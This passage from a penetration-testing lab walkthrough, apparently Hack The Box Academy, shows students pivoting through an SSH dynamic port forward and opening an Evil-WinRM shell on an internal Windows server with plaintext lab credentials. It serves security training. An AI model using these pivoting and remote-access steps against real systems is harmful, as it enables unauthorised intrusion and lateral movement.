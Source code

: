 Answer: `SSH_KEY_Authentication`

# Remote Management Tools

## Question 1

### "Decrypt the VNC credentials from SRV02. What's the VNC password?"

After spawning the target, students will use SSH to establish a dynamic port-forwarding using the credentials `helen:RedRiot88`:

Code: shell

```shell
ssh -D 9050 helen@STMIP
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ ssh helen@10.129.72.91 -D 9050

helen@10.129.72.91's password:
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

inlanefreight\helen@SRV01 C:\Users\helen>
```

Subsequently, students will open a new terminal tab and will authenticate to `SRV02` (`172.20.0.52` through `Evil-WinRM` using Helen's credentials:

Code: shell

```shell
proxychains evil-winrm -i 172.20.0.52 -u helen -p RedRiot88
```

```
┌─[eu-academy-5]─[10.10.14.133]─[htb-ac-8414@htb-ise2nzsvgt]─[~]
└──╼ [★]$ proxychains evil-winrm -i 172.20.0.52 -u helen -p RedRiot88

[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.20.0.52:5985  ...  OK
*Evil-WinRM* PS C:\Users\helen\Documents>
```
